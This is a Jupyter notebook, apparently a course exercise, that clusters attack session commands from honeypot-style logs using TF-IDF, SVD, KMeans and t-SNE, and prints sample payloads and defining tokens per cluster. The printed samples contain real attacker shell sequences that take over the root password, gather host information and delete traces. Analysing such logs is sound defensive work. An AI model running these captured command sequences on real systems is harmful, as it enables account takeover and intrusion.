# Section 3 Unsupervised Learning


--------------------------------------------------------------------------------------

In [ ]:
import string
import base64
import pandas as pd
import re
from sklearn.feature_extraction.text import TfidfVectorizer
from sklearn.compose import ColumnTransformer
import os

# load dataset from environment variable
dataSetPath = os.environ.get('DATASET_PATH')
dataSet = pd.read_parquet(dataSetPath)

def decode_base64_payload(payload):
    base64_pattern = r'([A-Za-z0-9+/]{20,}={0,2})'
    if not "base64" in payload:
        return payload
    matches = re.findall(base64_pattern, payload)
    decoded_strings = []
    for match in matches:
        try:
            decoded = base64.b64decode(match).decode('utf-8', errors='ignore')
            # Filter out non-printable characters
            if all(c in string.printable for c in decoded):
                decoded_strings.append(decoded)
        except Exception as e:
            continue
    # return the original payload but with the decoded b64
    result = payload
    for match, decoded in zip(matches, decoded_strings):
        result = result.replace(match, decoded, 1)
    return result

def preprocess_ip_addresses(payload):
    ip_pattern = r'(\b\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}\b)'
    return re.sub(ip_pattern, 'IP_ADDRESS', payload)

dataSet['decoded_payload'] = dataSet['full_session'].apply(decode_base64_payload).apply(preprocess_ip_addresses)

In [ ]:

newDataSet = dataSet.drop(columns=['full_session','session_id','first_timestamp', 'Set_Fingerprint'])

X = newDataSet

token_pattern = r'[^\s|;(){}:\'\"><\=,\.\/\\]+'

preprocessor = ColumnTransformer(
    transformers=[
        (
            "full_session_vectorized",
            TfidfVectorizer(
                lowercase=True,
                token_pattern=token_pattern,
            ),
            "decoded_payload"
        )
    ]
)

X = preprocessor.fit_transform(X)

<>:37: SyntaxWarning: invalid escape sequence '\s'
<>:37: SyntaxWarning: invalid escape sequence '\s'
/tmp/ipykernel_40729/3364035623.py:37: SyntaxWarning: invalid escape sequence '\s'
  plt.title(f'{chosen_n_components} PCs explain {perc_cumul_exp_var[chosen_n_components-1]:.2f}% of $\sigma^2$')


Cumulative explained variance with 6 components: 25.56%




New shape after SVD: (233035, 6)
Old shape before SVD: (233035, 276459)


In [ ]:
# dimensionality reduction with TruncatedSVD (it works with sparse matrices)
from sklearn.decomposition import TruncatedSVD
import matplotlib.pyplot as plt
import seaborn as sns
import numpy as np

n_components = 50
svd = TruncatedSVD(n_components=n_components, random_state=42)
X_svd = svd.fit_transform(X)

chosen_n_components = 6
# elbow method to choose number of components
explained_variance = svd.explained_variance_ratio_
cumul_exp_var_chosen = np.cumsum(explained_variance)[:chosen_n_components]
print(f"Cumulative explained variance with {chosen_n_components} components: {cumul_exp_var_chosen[-1]*100:.2f}%")
perc_cumul_exp_var = np.cumsum(explained_variance) * 100

# Plot
# x-axis: 1-based index of principal components
pc_range = np.arange(1, n_components + 1)

plt.figure(figsize=(5, 3.5))
# Cumulative variance against the 1-based range
plt.plot(pc_range, perc_cumul_exp_var) 

plt.xlabel('# Principal Components (PCs)')
plt.ylabel('Cumulative explained variance [%]')

# align ticks and labels starting from 2
plt.xticks(np.arange(2, n_components + 1, step=2))

plt.grid()

# line to show chosen number of components
plt.axvline(x=chosen_n_components, color='red', linestyle='--', linewidth=1)

plt.title(f'{chosen_n_components} PCs explain {perc_cumul_exp_var[chosen_n_components-1]:.2f}% of $\sigma^2$')
plt.tight_layout()
plt.show()

svd = TruncatedSVD(n_components=chosen_n_components, random_state=42)
X_svd = svd.fit_transform(X)

print(f"New shape after SVD: {X_svd.shape}")
print(f"Old shape before SVD: {X.shape}")


Cluster the attacks according to their characteristics. Choose at least 2 Clustering Algorithms, and for each
of them:
1. Determine the number of clusters. Explain your choices and reasoning.
2. Tune other hyper-parameters, if any.3. Visualize the clusters. Explain your technique choice.

In [19]:
from sklearn.cluster import KMeans
from sklearn.metrics import silhouette_score
from tqdm import trange
n_cluster_list=[]
shs_list = []
ri_list = []
ari_list = []
inertia_list=[]
for n_clusters in trange(3, 16):
    kmeans = KMeans(n_clusters=n_clusters, n_init=20, random_state=42)
    cl_labels = kmeans.fit_predict(X_svd)
    # Unsupervised metric
    silhouette  = silhouette_score(X_svd, cl_labels, n_jobs=-1, sample_size=10000, random_state=42)
    n_cluster_list.append(n_clusters)
    shs_list.append(silhouette)
    inertia_list.append(kmeans.inertia_)


100%|██████████| 13/13 [01:10<00:00,  5.44s/it]


best k:  7  with corresponding silhouette:  0.9711892496672099




In [20]:
# Get n_clusters leading to the highest silhouette
best_sh= np.max(shs_list)
best_n=n_cluster_list[np.argmax(shs_list)]
print("best k: ",best_n, " with corresponding silhouette: ", best_sh)

# Plot
plt.figure(figsize=(5, 3.5))
plt.plot(n_cluster_list,shs_list, marker='o', markersize=5)
plt.scatter(best_n, best_sh, color='r', marker='x', s=90)
plt.grid()
plt.xlabel('Number of clusters')
plt.ylabel('Silhouette score')
plt.show()



In [21]:
# Plot k-Means clustering error
plt.figure(figsize=(5, 3.5))
plt.plot(n_cluster_list,inertia_list, marker='o', markersize=5)
plt.grid()
plt.xlabel('Number of clusters')
plt.ylabel('Inertia')
plt.show()



In [ ]:
# Putting the silhouette and inertia graphs side by side to verify best k
fig, ax = plt.subplots(1, 2, figsize=(10, 3.5))
# Silhouette plot
ax[0].plot(n_cluster_list, shs_list, marker='o', markersize=5)
best_n = n_cluster_list[np.argmax(shs_list)]
best_sh = shs_list[np.argmax(shs_list)]
ax[0].scatter(best_n, best_sh, color='r', marker='x', s=90)
ax[0].grid()
ax[0].set_xlabel('Number of clusters')
ax[0].set_ylabel('Silhouette score')
# Inertia plot
ax[1].plot(n_cluster_list, inertia_list, marker='o', markersize=5)
best_n_inertia = n_cluster_list[np.argmin(inertia_list)]
ax[1].grid()
ax[1].set_xlabel('Number of clusters')
ax[1].set_ylabel('Inertia')
plt.tight_layout()
plt.show()

In [ ]:
# choosing optimal k we can now do the final clustering (with the same hyperparameters)
kmeans = KMeans(n_clusters=best_n, n_init=20, random_state=42)
cl_labels = kmeans.fit_predict(X_svd)

In [ ]:
import pandas as pd
import random

pd.set_option('display.max_colwidth', None)

# Add the cluster labels to the DataFrame
newDataSet['cluster'] = cl_labels

for i in range(best_n):
    print(f"\n--- Cluster {i} Details ---")
    cluster_data = newDataSet[newDataSet['cluster'] == i]

    # Print payloads
    print("Payload Samples:")
    # Taking 5 random samples for each cluster
    if not cluster_data['decoded_payload'].empty:
        num_samples = min(5, len(cluster_data['decoded_payload']))
        samples = random.sample(list(cluster_data['decoded_payload']), num_samples)
        print(*samples, sep="\n---\n")
        print()
    else:
        print("No payload samples for this cluster.")


--- Cluster 0 Details ---
Payload Samples:
cat /proc/cpuinfo | grep name | wc -l ; echo -e "indiana\nAWsVnlkziQMK\nAWsVnlkziQMK" | passwd | bash ; echo "indiana\nAWsVnlkziQMK\nAWsVnlkziQMK\n" | passwd ; echo "321" > /var/tmp/.var03522123 ; rm -rf /var/tmp/.var03522123 ; cat /var/tmp/.var03522123 | head -n 1 ; cat /proc/cpuinfo | grep name | head -n 1 | awk '{print $4,$5,$6,$7,$8,$9 ; }' ; free -m | grep Mem | awk '{print $2 ,$3, $4, $5, $6, $7}' ; ls -lh $(which ls) ; crontab -l ; w ; uname -m ; cat /proc/cpuinfo | grep model | grep name | wc -l ; top ; uname ; uname -a ; lscpu | grep Model ; echo "admin indiana" > /tmp/up.txt ; rm -rf /var/tmp/dota* ;
---
cat /proc/cpuinfo | grep name | wc -l ; echo -e "pipi\na8iS2PTv5AyH\na8iS2PTv5AyH" | passwd | bash ; echo "pipi\na8iS2PTv5AyH\na8iS2PTv5AyH\n" | passwd ; echo "321" > /var/tmp/.var03522123 ; rm -rf /var/tmp/.var03522123 ; cat /var/tmp/.var03522123 | head -n 1 ; cat /proc/cpuinfo | grep name | head -n 1 | awk '{print $4,$5,$6,$7,$8,$



In [ ]:
from sklearn.manifold import TSNE
import matplotlib.pyplot as plt
import seaborn as sns
import numpy as np

# 1. Subsample for speed (as done previously)
sample_size = min(10000, len(X_svd))
np.random.seed(42)
indices = np.random.choice(len(X_svd), size=sample_size, replace=False)

X_sample = X_svd[indices]
labels_sample = cl_labels[indices]

# 2. t-SNE
tsne = TSNE(n_components=2, perplexity=30, random_state=42, init='pca', learning_rate='auto')
X_tsne = tsne.fit_transform(X_sample)

# visualization 
plt.figure(figsize=(12, 8))

palette = sns.color_palette("bright", 7)

# Plot the points with white edges to help them pop
sns.scatterplot(
    x=X_tsne[:, 0], y=X_tsne[:, 1],
    hue=labels_sample,
    palette=palette,
    legend='full',  
    alpha=0.6,
    s=60,
    edgecolor='white',
    linewidth=0.5
)

plt.legend(
    title="Attack Clusters",
    bbox_to_anchor=(1.02, 1), 
    loc='upper left', 
    borderaxespad=0,
    fontsize=10,
    ncol=1 
)

for cluster_id in np.unique(labels_sample):
    # Calculate the mean (x, y) coordinate for this specific cluster
    mask = (labels_sample == cluster_id)
    center_x = X_tsne[mask, 0].mean()
    center_y = X_tsne[mask, 1].mean()

plt.title('kmeans - t-SNE View of Attack Clusters ($k=7$)', fontsize=15)
plt.xlabel('t-SNE Dimension 1')
plt.ylabel('t-SNE Dimension 2')
plt.grid(True, linestyle=':', alpha=0.4)
plt.tight_layout()
plt.savefig('tsne_clusters_high_contrast.png')



Top 10 defining tokens for Cluster 0 (SVD Weight):
grep: 0.1079
tmp: 0.0877
var: 0.0706
cat: 0.0666
echo: 0.0606
uname: 0.0545
cpuinfo: 0.0542
name: 0.0541
-l: 0.0539
var03522123: 0.0533
------------------------------




Top 10 defining tokens for Cluster 1 (SVD Weight):
tmp: 0.3691
x17-unix: 0.2745
0: 0.2726
var: 0.1959
cd: 0.1763
-s: 0.1568
6: 0.1565
-p: 0.1558
rsync: 0.1558
tar: 0.1558
------------------------------




Top 10 defining tokens for Cluster 2 (SVD Weight):
s: 0.3556
busybox: 0.2391
bin: 0.1478
sh: 0.0608
shell: 0.0599
enable: 0.0599
bs: 0.0598
count: 0.0598
dd: 0.0598
while: 0.0598
------------------------------




Top 10 defining tokens for Cluster 3 (SVD Weight):
x19-unix: 0.4952
tmp: 0.2753
&&: 0.2611
dota3: 0.2122
~: 0.2069
0: 0.2031
cd: 0.1842
var: 0.1462
ssh: 0.1452
-rf: 0.1301
------------------------------




Top 10 defining tokens for Cluster 4 (SVD Weight):
grep: 0.3010
tmp: 0.2528
var: 0.2002
cat: 0.1864
echo: 0.1693
uname: 0.1521
-l: 0.1517
cpuinfo: 0.1511
name: 0.1510
var03522123: 0.1488
------------------------------




Top 10 defining tokens for Cluster 5 (SVD Weight):
dota2: 0.4435
x15-unix: 0.4435
http: 0.2284
ip_address: 0.2211
cron: 0.2049
threatstackcloudsecops: 0.1873
tar: 0.1669
cd: 0.1580
gz: 0.1334
curl: 0.1204
------------------------------




Top 10 defining tokens for Cluster 6 (SVD Weight):
lc_all: 0.8056
c: 0.2296
~: 0.2058
dhpcd: 0.1712
scp: 0.1463
chattr: 0.0798
knrm: 0.0744
r: 0.0673
etc: 0.0633
home: 0.0555
------------------------------




In [ ]:
import numpy as np
from wordcloud import WordCloud
import matplotlib.pyplot as plt
import matplotlib.gridspec as gridspec

# 1. Access the feature names from your TfidfVectorizer
# Replace 'full_session_vectorized' with your actual transformer name if different
tfidf_vocab = preprocessor.named_transformers_['full_session_vectorized'].get_feature_names_out()

# 2. Get the SVD components matrix (V^T)
# This matrix has shape (6, VocabularySize)
svd_components = svd.components_ 

for i in range(best_n):
    # Find the average location (centroid) of this cluster in your 6D space
    cluster_centroid = kmeans.cluster_centers_[i]
    
    # Dot Product: (1 x 6) centroid * (6 x Vocabulary) components
    # This gives the mathematical "importance" of every word for this specific cluster
    word_relevance = np.dot(cluster_centroid, svd_components)
    
    # Filter for positive scores only (words that define the presence of this attack family)
    word_scores = {tfidf_vocab[idx]: score for idx, score in enumerate(word_relevance) if score > 0}
    
    if word_scores:
        # Generate word cloud using frequencies (scores) instead of raw text
        wordcloud = WordCloud(
            width=800, 
            height=400, 
            background_color='white',
            collocations=False
        ).generate_from_frequencies(word_scores)
        
        plt.figure(figsize=(10, 5))
        plt.imshow(wordcloud, interpolation='bilinear')
        plt.axis('off')
        plt.title(f'SVD-Filtered Word Cloud - Cluster {i}')
        plt.show()

        # Display top 10 defining tokens for scientific context
        sorted_words = sorted(word_scores.items(), key=lambda x: x[1], reverse=True)
        print(f"Top 10 defining tokens for Cluster {i} (SVD Weight):")
        for word, score in sorted_words[:10]:
            print(f"{word}: {score:.4f}")
        print("-" * 30)

# single-image wordcloud
n_rows = 3
best_n = 7  # Assuming 7 clusters
fig = plt.figure(figsize=(16, 12))

# Create a grid with 6 columns to allow for 3-plot and 2-plot rows to align
gs = gridspec.GridSpec(n_rows, 6, figure=fig)

cluster_idx = 0

for row in range(n_rows):
    if row == 0:
        # Row 0: 3 plots. Each spans 2 columns.
        columns_per_plot = 2
        num_plots_in_row = 3
    else:
        # Row 1 & 2: 2 plots. Each spans 3 columns.
        columns_per_plot = 3
        num_plots_in_row = 2
        
    for p in range(num_plots_in_row):
        if cluster_idx >= best_n:
            break
            
        # Calculate the grid position
        start_col = p * columns_per_plot
        end_col = start_col + columns_per_plot
        ax = fig.add_subplot(gs[row, start_col:end_col])
        
        # WordCloud logic
        cluster_centroid = kmeans.cluster_centers_[cluster_idx]
        word_relevance = np.dot(cluster_centroid, svd_components)
        word_scores = {tfidf_vocab[idx]: score for idx, score in enumerate(word_relevance) if score > 0}
        
        if word_scores:
            wc = WordCloud(
                width=800, height=400, 
                background_color='white', collocations=False
            ).generate_from_frequencies(word_scores)
            ax.imshow(wc, interpolation='bilinear')
            ax.set_title(f'Cluster {cluster_idx}', fontsize=14, fontweight='bold', pad=10)
        
        ax.axis('off')
        cluster_idx += 1

plt.tight_layout()
plt.subplots_adjust(top=0.92, hspace=0.3)
